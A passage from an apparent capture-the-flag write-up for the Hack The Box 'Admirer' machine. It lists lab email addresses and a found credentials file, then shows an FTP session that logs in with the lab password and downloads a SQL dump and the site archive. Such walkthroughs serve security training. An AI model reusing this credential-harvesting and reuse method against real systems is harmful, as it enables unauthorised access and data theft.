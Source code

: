 ```
Email: r.nayyar@admirer.htb

# Amy
Email: a.bialik@admirer.htb

# Leonard
Email: l.galecki@admirer.htb



#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb

# Bernadette
Email: b.rauch@admirer.htb
```
just email... nothing really interestting here. now let check ```credentials.txt```
```
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```
I got the password for ftp server. let connect to it
```console
kali@kali:~/HTB/Admirer$ ftp admirer 
Connected to admirer.
220 (vsFTPd 3.0.3)
Name (admirer:kali): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
226 Directory send OK.
ftp> binary
200 Switching to Binary mode.
ftp> get dump.sql
local: dump.sql remote: dump.sql
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for dump.sql (3405 bytes).
226 Transfer complete.
3405 bytes received in 0.00 secs (13.8181 MB/s)
ftp> get html.tar.gz
local: html.tar.gz remote: html.tar.gza
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for html.tar.gz (5270987 bytes).
226 Transfer complete.
5270987 bytes received in 5.11 secs (1008.0114 kB/s)
```
